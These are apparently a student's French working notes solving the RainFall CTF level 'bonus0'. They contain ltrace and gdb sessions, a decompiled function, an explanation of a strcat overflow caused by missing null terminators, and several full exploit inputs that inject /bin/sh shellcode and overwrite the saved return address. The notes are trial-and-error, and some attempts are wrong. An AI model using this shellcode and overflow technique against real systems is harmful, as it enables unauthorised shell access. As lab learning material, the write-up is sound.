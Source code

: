bonus0@RainFall:~$ ltrace ./bonus0 
__libc_start_main(0x80485a4, 1, 0xbffff6f4, 0x80485d0, 0x8048640 <unfinished ...>
puts(" - " - )                                      = 4
read(0, lol"lol\n", 4096)                           = 4
strchr("lol\n", '\n')                               = "\n"
strncpy(0xbffff5d8, "lol", 20)                      = 0xbffff5d8
puts(" - " - )                                      = 4
read(0, lol"lol\n", 4096)                           = 4
strchr("lol\n", '\n')                               = "\n"
strncpy(0xbffff5ec, "lol", 20)                      = 0xbffff5ec
strcpy(0xbffff626, "lol")                           = 0xbffff626
strcat("lol ", "lol")                               = "lol lol"
puts("lol lol"lol lol)                              = 8

En testant 20 * A dans le premier read et 20 * B dans le deuxieme
En mettant un break point a la fin du main j'arrive a obtenir une valeur de ebp modifier

ebp            0x42424242       0x42424242
eip = 0x80485cb in main; saved eip 0x42424242

Donc le retour de la fonction main est modifier
On va surement pouvoir envoyer un shellcode de cette maniere

On reprend notre shellcode : "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"

40 pour le premier ?
Offset 9 pour le deuxieme read

0x bf ff f6 10
r < <(python -c 'print "\x90"*20 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"' ; python -c 'print "\x90"*20 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')


Chercher une valeur dans la memoire : 

(gdb) find START_ADDR, END_ADDR, VALEUR

Obtenir la plage memoire :

(gdb) info proc mappings

Exemple :

(gdb) find $esp, +1000, 0x41
(gdb) find $esp, +1000, 0x6a, 0x0b, 0x58, 0x99


Ok donc avec ca on reprend du debut parce que la c'est la cata cata

Avec breakpoint dans p()
Avant leave
(gdb) find $esp, +1000, 0x41414141
0xbfffe590
(gdb) find $esp, +1000, 0x42424242
0xbfffe590

Apres leave :
(gdb) find $esp, +1000, 0x41414141
0xbffff5c8
(gdb) find $esp, +1000, 0x42424242
0xbffff5dc



Avec breakpoint dans pp()
Avant leave :
(gdb) find $esp, +1000, 0x41414141
0xbffff616
(gdb) find $esp, +1000, 0x42424242
0xbffff61b
Pas de leave dans pp()

Avec breakpoint dans main()
(gdb) find $esp, +1000, 0x42424242
0xbffff61b
(gdb) find $esp, +1000, 0x41414141
0xbffff616
donc dans le contexte du main les adresses et valeurs sont identiques

Regardons apres le leave :
(gdb) find $esp, +1000, 0x42424242
Pattern not found.
(gdb) find $esp, +1000, 0x41414141
Pattern not found.

not found car %esp est mov dans %ebp donc le find ne trouve pas a partir de %esp mais les valeurs/adresses sont toujours bien la :

(gdb) x/x 0xbffff61b
0xbffff61b:     0x42424242
(gdb) x/x 0xbffff616
0xbffff616:     0x41414141

(gdb) find 0xbffff616, +1000, 0xb7e454d3
0xbffff64c
0xbffff64c:     0xb7e454d3

On a notre adresse a modifier et sa position dans la stack ! MAGNIFIKE MA CHERIE


r < <(python -c 'print "\x90"*20'; python -c 'print "\x90" * 9 +  "\x26\xf6\xff\xbf" + 16*"\x90" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')


```c
char* pp(char* arg1) {
    char buffer1[48];  // [ebp-0x30]
    char buffer2[28];  // [ebp-0x1c]
    
    p(buffer1, data_80486a0);  // Premier input: AAAAA...
    p(buffer2, data_80486a0);  // Deuxième input: BBBBB...
    
    strcpy(arg1, buffer1);     // Copie AAAAA dans arg1
    
    size_t len = strlen(arg1); // Trouve la longueur de arg1
    arg1[len] = ' ';          // Ajoute un espace
    
    strcat(arg1, buffer2);     // Ajoute BBBBB à la suite
}
```

`arg1` est en fait le `str` déclaré dans le `main()`. C'est là qu'est la vulnérabilité:

1. `buffer1` contient 20 'A' (sans null byte)
2. `buffer2` contient 20 'B' (sans null byte)
3. Quand on copie `buffer1` dans `str`, on a 20 'A'
4. On ajoute un espace
5. Quand `strcat` ajoute `buffer2`, il va écrire les 20 'B' à la suite

Donc dans `str`, on va avoir:
```
AAAAAAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBBBBBB
```

C'est 41 caractères dans un buffer de 42, mais comme il n'y a pas de null byte entre les A et les B, on peut déborder et écraser la mémoire au-delà de `str`.

La vulnérabilité est donc dans le fait qu'on peut écrire plus que la taille prévue de `str` grâce à l'absence de null bytes dans les `strncpy` précédents.


--> En realite le buffer est ecrit en memoire, seulent 20 bytes sont copier dans le strncpy mais on s'en fou frerot

r < <(python -c 'print "A"*20'; python -c 'print "B"*20')


(gdb) find $esp, +1000, 0x41414141
0xbffff706
0xbffff707
0xbffff708
0xbffff709
0xbffff70a
0xbffff70b
0xbffff70c
0xbffff70d
0xbffff70e
0xbffff70f
0xbffff710
0xbffff711
0xbffff712
0xbffff713
0xbffff714
0xbffff715
0xbffff716
17 patterns found.

find 0xbffdf000, +21000, 0x6a, 0x0b, 0x58, 0x99

0xbffff62a

r < <(python -c 'print "\x90"*20'; python -c 'print "\x90" * 9 +  "\x2a\xf6\xff\xbf" + 4*"\x90" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80"')